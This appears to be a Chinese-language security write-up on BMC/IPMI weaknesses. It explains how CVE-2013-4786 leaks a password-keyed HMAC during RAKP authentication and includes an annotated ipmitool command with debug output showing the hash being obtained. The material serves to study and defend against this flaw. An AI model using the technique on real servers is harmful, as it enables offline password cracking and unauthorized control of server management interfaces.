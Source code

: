 * Cipher Zero认证绕过
* RAKP认证崩溃
* 弱Session ID

#### 案例一：CVE-2013-4786

分析BMC可以首先检查自2013以来就已知的哈希泄露。

下图是IPMI标准手册截图，解释了IPMI中身份验证如何工作。IPMI 2.0规范使用RAKP认证密钥交换协议。

 ![](/attachments/2023-12-13-bmc/5f2b11f8-71cc-445a-aa18-8a8b9cd912a0.png)

重点关注两条消息：

**Message 1**从管理员控制台发送到BMC，管理员只需要将用户名发送到BMC，而BMC会查找用户名并根据包含用户名的某些数据（比如控制台和受管系统的Session ID，和对应的随机数，权限级别，用户名长度和用户名本身）计算HMAC，且即将进行身份验证的用户的密码将用作此HMAC计算的密钥；

**Message 2**将这个HMAC计算结果被发送回管理员。

触发RAKP的一种简单方法是使用`ipmitool`发送任意命令。

```bash
$ ipmitool -I lanplus -v -v -v -U ADMIN -P fluffy-wuffy -H 10.0.0.1 chassis identify
                |         |         |           |             |         |------> 蓝色uid指示灯，直接执行命令，只能维持15秒
                |         |         |           |             |------> 指定目标BMC设备的IP地址
                |         |         |           |------> 无效的密码，不重要，因为不需要完成认证
                |         |         |------> 用户名
                |         |------> -v*3 启用详细的调试输出，得到所有传入和传出的数据包
                |------> IPMI接口类型LANplus
```

返回消息：

```plain text
Message 1：
   [...]
   rakp2 mac input buffer (63 bytes)
   a4 a3 a2 a0 4c 7f fb df ee a4 a3 96 b1 d0 7e 27
   cd ef 32 ae 66 cf 87 b9 aa 3e 97 ed 5d 39 77 4b
   bc 8a c5 a9 e2 da 1d d9 35 30 30 31 4d 53 00 00
   00 00 00 00 00 00 00 00 14 05 41 44 4d 49 4e
                               | |-------------|
                               |         |
                               |         |------> 用户名ADMIN
                               |------> 用户名长度
   [...]
Message 2：
   [...]
   Key exchange auth code [sha1] : 0xede8ec3caeb235dbad1210ef985b1b19cdb40496
                                  |------------------------------------------|
                                                      HAMC
   [...]
   /
   ...unauthorized name
   /
   ...
```
